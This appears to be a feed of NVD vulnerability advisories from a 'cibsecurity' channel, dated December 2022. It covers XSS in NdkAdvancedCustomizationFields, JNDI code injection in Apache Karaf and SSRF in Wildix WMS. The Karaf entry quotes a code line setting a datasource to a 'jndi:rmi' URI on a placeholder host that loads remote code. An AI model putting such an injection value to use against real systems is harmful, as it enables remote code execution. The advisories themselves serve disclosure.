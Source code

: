 * https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40841

<blockquote>
‼ CVE-2022-40841 ‼

A cross-site scripting (XSS) vulnerability in NdkAdvancedCustomizationFields v3.5.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payloads injected into the &quot;htmlNodes&quot; parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-12-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40145

<blockquote>
‼ CVE-2022-40145 ‼

This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL. The function jaas.modules.src.main.java.porg.apache.karaf.jass.modules.jdbc.JDBCUtils&#35;doCreateDatasource use InitialContext.lookup(jndiName) without filtering. An user can modify `options.put(JDBCUtils.DATASOURCE, &quot;osgi:&quot; + DataSource.class.getName());` to `options.put(JDBCUtils.DATASOURCE,&quot;jndi:rmi://x.x.x.x:xxxx/Command&quot;);` in JdbcLoginModuleTest&#35;setup. This is vulnerable to a remote code execution (RCE) attack when a configuration uses a JNDI LDAP data source URI when an attacker has control of the target LDAP server.This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7. We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-12-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47635

<blockquote>
‼ CVE-2022-47635 ‼

Wildix WMS 6 before 6.02.20221216, WMS 5 before 5.04.20221214, and WMS4 before 4.04.45396.23 allows Server-side request forgery (SSRF) via ZohoClient.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---
